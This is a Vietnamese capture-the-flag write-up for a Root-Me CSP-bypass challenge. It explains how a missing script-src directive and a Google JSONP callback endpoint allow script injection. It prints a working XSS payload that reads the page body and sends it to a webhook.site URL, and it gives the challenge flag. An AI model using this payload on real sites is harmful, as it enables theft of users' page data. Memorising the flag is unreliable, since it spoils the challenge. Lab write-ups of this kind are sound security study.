```diff
@@ Web-Client Challenge
```

## CSP Bypass - JSONP [45 Points]

- Challenge cung cấp cho ta trang web như sau

  ![3](F:\VCS_practice\rootme\img\3.jpg)

-  Thử payload Reflect XSS ta thấy nó không thực thi được do CSP

  ![3-3](F:\VCS_practice\rootme\img\3-3.jpg)

- Vì đề là CSP Bypass nên ta sẽ kiểm tra Content Security Policy của trang này là gì

  ![3-1](F:\VCS_practice\rootme\img\3-1.jpg)

- Kiểm tra  trên trang CSP Evaluator ta thấy có 1 vị trí có thể khai thác

  ![3-2](F:\VCS_practice\rootme\img\3-2.jpg)

- Default - src là chỉ thị mặc định khi các chỉ thị khác bị thiếu, ở đây nó có nội dung là

  ```default-src 'self' https://*.google.com https://*.googleapis.com https://*.twitter.com;```

  Và trong list liệt kê ở trên, ta thấy trang web thiếu chỉ thị ```script-src``` => giá trị của ```script-src``` sẽ là giá trị của ```default-src```

- Ta thấy nó có thể thực thi các script từ các source có domain là  google.com  , googleapis.com,  twitter.com. Vậy ý tưởng là ta sẽ load script từ các nguồn trên vào trang web để thực thi. 

- Vì không thể thực hiện việc tạo 1 file javascript trên các domain này, ta thực hiện tìm kiếm giải pháp khác liên quan đến tiêu đề challenge - JSONP

- Tìm hiểu khái niệm JSONP ta có kết quả như sau

  ![3-5](F:\VCS_practice\rootme\img\3-5.jpg)

- Truyền dữ liệu giữa các domain khác nhau sẽ gặp lỗi Cross-domain, nhưng truyền script thì không. JSONP tận dụng lợi ích của điều này để truyền dữ liệu. Cụ thể nó sẽ truyền script qua bên nhận và bên nhận tự thực thi script đó để lấy dữ liệu.

- Từ đó, ta có ý tưởng tạo jsonp để lấy script từ các domain cho phép, có nghĩa là không cần tạo file javascript trên các domain đó nhưng vẫn load script về được. (dựa trên đặc điểm của jsonp)

- Thử tìm kiếm ta thấy có một trang của google cho phép tạo jsonp theo mong muốn.

  ![3-4](F:\VCS_practice\rootme\img\3-4.jpg)

- Đặt script mong  muốn của ta vào nội dung tham số callback => Ta đã có được source script để inject

  ``` Payload: <script src="https://accounts.google.com/o/oauth2/revoke?callback=function myFunction(){ var a = document.getElementsByTagName('body')[0].textContent; document.location='https://webhook.site/03c97039-b00e-4820-91c6-6424602b0e7f?c='.concat(a)}; setTimeout(myFunction, 2000)"></script>```

  - Giải thích Payload: tham số callback nhận giá trị là một function, nên em định nghĩa ra một function để thực hiện đọc nội dung tag ```<body>``` của response. Sau đó gửi nội dung đó tới webhook của mình. Lưu ý ở đây là vì thẻ script nằm phía trên phần nội dung có flag, nếu script được trigger ngay lúc đó sẽ không đọc được nội dung bên dưới. Vậy nên ta phải dùng hàm setTimeout để đợi trình duyệt render hết nội dung của html rồi mới thực hiện script.

- Kết quả

  ![3-6](F:\VCS_practice\rootme\img\3-6.jpg)

  ```diff
  - Flag: CSP_4ND_JS0NP_ENDPOINT_B4D_ID3A
  ```